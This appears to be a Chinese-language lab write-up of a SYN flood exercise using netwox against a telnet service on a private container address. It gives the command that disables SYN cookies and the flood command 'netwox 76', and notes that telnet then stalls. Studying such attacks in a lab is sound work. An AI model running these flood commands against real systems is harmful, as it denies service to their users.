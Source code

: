 # netwox tcp synflood

首先需要开启目标机的 telnet 服务  

service openbsd-inetd start

![image-20220410194453195](readme.assets/image-20220410194453195.png)

## 情况1 关闭SYN cookie

`sysctl -w net.ipv4.tcp_syncookies=0`

![image-20220410194506824](readme.assets/image-20220410194506824.png)

### 攻击前

telnet正常连接

![image-20220410194534568](readme.assets/image-20220410194534568.png)

### 攻击中

攻击命令：netwox 76 -i 172.17.0.3 -p 23

telnet一直显示trying 无法和攻击前一样正常连接
